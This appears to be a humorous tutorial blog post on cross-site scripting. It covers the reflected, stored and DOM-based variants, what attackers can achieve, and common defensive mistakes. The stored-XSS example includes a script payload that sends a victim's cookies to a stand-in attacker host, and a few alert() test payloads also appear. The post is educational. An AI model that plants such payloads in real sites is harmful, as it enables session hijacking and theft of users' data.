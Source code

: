 ```yaml
---

title: "XSS: Hacking Websites Like a Zoomer Stealing TikTok Ideas"
date: "2025-04-14"
tags: [XSS]
description: "A mind-blowing blog post about XSS, written for chaotic Gen Z engineers."

---
```


**Alright, listen up, you code-slinging gremlins!** You think you're hot stuff because you can center a div? Get ready to learn about Cross-Site Scripting (XSS), the attack that lets you remotely control someone else's browser and make their life a living, breathing *algorithm*. This ain't your grandma's SQL injection; this is next-level digital chaos.

## XSS: The Art of Injecting Your BS Into Someone Else's Website

XSS is basically tricking a website into running code YOU control in the context of a user's browser. Think of it like sneaking your own unhinged remix into Drake's new album. 💀

It happens when a website doesn't properly sanitize user input, meaning it just trusts whatever garbage you throw at it. This input gets rendered somewhere (or everywhere!). And if that input happens to be malicious JavaScript... BOOM! You've got XSS.

There are three main flavors of this digital dumpster fire:

1.  **Reflected XSS:** This is where your malicious code is sent in a GET or POST request and immediately reflected back to the user. Imagine walking into a crowded room, yelling "I LOVE PHISHING!" and everyone immediately yells it back at you. Dumb, direct, but sometimes effective.

    ```
    User -> Website (Malicious URL) -> Website reflects the malicious code -> User's Browser executes code
    ```

    **Example:** You send a link to your friend that looks legit: `www.example.com/search?q=<script>alert('hacked')</script>`
    The website shows: "You searched for `<script>alert('hacked')</script>`". BUT ALSO the script runs!

2.  **Stored XSS (aka Persistent XSS):** The malicious code gets stored on the server and served to other users. This is like leaving a glitter bomb in the office kitchen that explodes every time someone opens the fridge. The gift that keeps on giving (misery).

    ```
    User -> Website (Malicious Comment) -> Website stores it in the database -> Other users see the comment and their browser executes code
    ```

    **Example:** You leave a comment on a blog post: `<script>window.location = "https://evilsite.com/steal_cookies?cookies=" + document.cookie;</script>`.
    Every person that views that comment gets their cookies stolen. Yikes.

3.  **DOM-Based XSS:** The vulnerability exists entirely on the client-side. The JavaScript on the page uses user-provided data to update the DOM (Document Object Model) without proper sanitization. This is like accidentally triggering a self-destruct sequence in a robot by saying the wrong phrase.

    ```
    User -> Website (Malicious Input) -> JavaScript uses input to modify DOM -> Boom!
    ```

    **Example:** JavaScript takes a URL fragment (e.g., `www.example.com/#<script>alert('DOMinated')</script>`) and uses it to update the page content.

## Real-World Use Cases: From Bad to Absolutely Awful

*   **Cookie Theft:** Stealing a user's cookies to impersonate them. This is like stealing someone's Netflix password but for their *entire internet existence*.
*   **Session Hijacking:** Taking over a user's session. Imagine logging into their bank account and changing their profile picture to a goat.
*   **Defacement:** Changing the website's content to display malicious messages or images. Classic rickroll, but on a grander scale.
*   **Keylogging:** Recording a user's keystrokes to steal passwords and sensitive information. Like having a creepy AI assistant that's also a supervillain.
*   **Phishing:** Redirecting users to a fake login page to steal their credentials. The Nigerian prince scam, but make it *tech*.

![distracted boyfriend meme](https://i.imgflip.com/30b1gx.jpg)
*Browser Security Features*
*Trying to prevent XSS*
*Me, injecting malicious scripts*

## Edge Cases & War Stories: When Things Get REALLY Spicy

*   **Content Security Policy (CSP) Bypasses:** CSP is supposed to be your website's bouncer, but it's often configured so badly that it's easier to bypass than a TikTok algorithm. Learn to find and exploit those weaknesses.
*   **Mutation XSS (mXSS):** Exploiting how browsers parse HTML to inject code. This is some deep, dark magic. It's like finding a typo in the Matrix that lets you bend reality.
*   **Character Encoding Issues:** Using different character encodings to bypass sanitization filters. Because who even remembers what UTF-8 *actually* is, amirite? 💀
*   **The Time I Accidentally Took Down A Fortune 500 Company's Internal Wiki:** Yeah, I'm not proud of it, but let's just say a badly-written XSS payload, a lack of proper security measures, and a whole lotta caffeine led to a *very* interesting Monday morning for their IT department. No one got fired, but my resume definitely got a boost... as a consultant hired to *fix* the problem. Stonks.

## Common F*ckups: You're Probably Doing These

*   **Trusting User Input:** Newsflash: EVERYONE LIES. NEVER trust user input. Treat every single piece of data coming from the outside world as if it's covered in radioactive waste.
*   **Using Blacklists Instead of Whitelists:** Trying to block specific keywords is like playing whack-a-mole with a hydra. Use whitelists to only allow known safe characters and patterns.
*   **Improper Output Encoding:** You need to encode the output based on the context it will be used in. HTML-encode for HTML, JavaScript-encode for JavaScript, URL-encode for URLs... it's not rocket science, but a surprising number of you still manage to screw it up.
*   **Relying Solely on Client-Side Sanitization:** Client-side sanitization is like putting a lock on your bedroom door made of cardboard. Server-side sanitization is mandatory.
*   **Thinking You're Too Smart to Be Hacked:** Hubris is the hacker's best friend. Get over yourself and start implementing proper security measures.

## Conclusion: Embrace the Chaos, Secure the Code

XSS is a terrifying, yet fascinating, attack vector. It’s a constant battle between developers and attackers. But remember, with great power comes great responsibility (and the potential to accidentally take down Fortune 500 companies).

So, go forth, learn your craft, and protect the internet from the hordes of script kiddies trying to make a name for themselves. And for the love of all that is holy, PLEASE SANITIZE YOUR INPUTS. 🙏 Your users (and your future self) will thank you for it. And if you DO get hacked? Blame it on the interns. They'll understand. Probably.
